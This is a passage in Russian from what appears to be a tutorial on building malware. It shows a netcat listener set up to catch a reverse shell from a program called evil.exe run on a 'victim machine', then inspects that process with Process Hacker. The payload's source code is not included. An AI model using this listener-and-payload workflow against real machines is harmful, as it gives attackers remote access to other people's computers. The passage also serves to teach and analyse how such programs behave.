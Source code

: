 Подготовка прослушивателя:   

```bash
nc -lvp 4444
```

и запуск с машины жертвы:    
```cmd
.\evil.exe
```

![run evil.exe](./images/6/2021-09-18_20-39.png){width="75%"}

Как видите, все работает.   

Для анализа `evil.exe` мы будем использовать [Process Hacker](https://processhacker.sourceforge.io/downloads.php). Process Hacker - это инструмент с открытым исходным кодом, который позволяет увидеть, какие процессы запущены на устройстве, определить программы, потребляющие ресурсы процессора, и выявить сетевые соединения, связанные с процессом.   

![process hacker evil.exe](./images/6/2021-09-18_23-52.png){width="75%"}
